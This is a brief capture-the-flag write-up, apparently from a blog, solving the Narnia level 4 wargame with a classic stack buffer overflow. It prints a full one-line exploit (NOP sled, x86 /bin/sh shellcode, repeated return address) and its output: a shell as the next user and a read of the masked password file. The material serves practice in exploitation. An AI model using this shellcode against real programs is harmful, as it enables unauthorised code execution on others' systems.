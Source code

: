 I won't show you the source here because i solved this level exactly like Narnia2.
Standard buffer overflow with nop sled, shellcode and repeated return address. The following worked for me:
```
narnia4@narnia:/narnia$ ./narnia4 $(python -c "print('\x90'*200+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'+'\x70\xd4\xff\xff'*50)")
$ whoami
narnia5
$ cat /etc/narnia_pass/narnia5
**********
```
As you can see, I just used a slightly longer NOP sled and obviously the injected return address changed.

Stay tuned 'cause the real challenge starts now!

